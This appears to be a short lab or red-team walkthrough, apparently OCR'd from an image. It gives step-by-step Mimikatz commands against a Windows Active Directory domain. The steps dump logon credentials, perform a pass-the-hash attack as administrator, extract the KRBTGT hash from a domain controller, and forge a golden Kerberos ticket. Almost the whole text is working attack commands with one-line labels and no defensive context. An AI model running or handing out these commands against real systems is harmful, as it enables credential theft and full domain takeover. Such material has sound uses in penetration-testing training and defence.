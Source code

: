 - Open command prompt whith run as administrator to dump and do pth attack to the administrator user
```
Invoke-Mimikatz -command '"privilege::debug" "sekurlsa::logonpasswords"'

```
- Perform Pth attack 
```
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:ntlmhash /run:powershell.exe"'
```
- And dump KRBTGT hash with the admimistrator user access
```
Invoke-Mimikatz -command '"lsadump::lsa /patch"' -computername prod.research.security.local
```

- Perform Final golden attack
```
Invoke-Mimikatz -command '"kerberos::golden /user:administrator /domain:research.security.local /sid:domain_sid /krbtgt:above_enumerated_krbtgt /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
